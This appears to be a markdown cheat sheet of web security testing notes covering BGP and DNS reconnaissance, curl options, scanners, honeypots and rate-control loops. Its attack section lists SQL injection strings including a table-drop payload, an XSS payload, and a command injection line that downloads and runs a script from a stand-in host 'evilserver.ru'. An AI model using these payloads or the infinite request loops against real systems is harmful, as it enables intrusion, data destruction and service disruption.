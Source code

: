 ### BGP
https://ipinfo.io/AS19905  
https://bgp.he.net/AS19905


### DNS

`dig -t NS`   


### Explore Infrastructure

`whois <domainname>`  
`dig -t NS <domainname>`  
`dig <domainname>`  
`dig www.domainname`  
`whois <IP address>`  
`IPInfo Search for ASN`  


### Web Application Attacks

SQL Injection: `foo‘ or 1=1;-- ` 

SQL Injection: `foo‘; drop table students;--`  

Command Injection: `cd /tmp; wget http://evilserver.ru/runme.sh chmod 666 /tmp/runme.sh; bash /tmp/runme.sh; rm /tmp/runme.sh`  

Cross-Site Scripting: `<script>alert(‘xss’);</script>`  


### Curl Commands

Show what’s going on: `-v`  

Ignore TLS errors: `–-insecure`  

Use a different user-agent: `-A “Smith User-Agent”`  

Send a specific header: `-H “Referer: https://www.foo.com/”`  

Don’t show the object: `-o /dev/null`  

Fake DNS resolution: `--resolve www.foo.com:80:192.168.1.1`


### Attack Encoding

https://www.urlencoder.org/  


### Honeypots

T-Pot https://github.com/telekom-security/tpotce  
dnsenum https://github.com/fwaeytens/dnsenum  

### Web Scanning

nikto https://cirt.net/Nikto2  
`nikto -h <target url>`


### Bot Testing

`wget https://www.gnu.org/software/wget/`  
`wget -r <target url>`

### Rate Control Testing

one line: `while true; do curl -v -o /dev/null  http://foosite.rybolov.net/; done`

```
#!/bin/bash
while true;
do
  wget <target url>;  
done
```
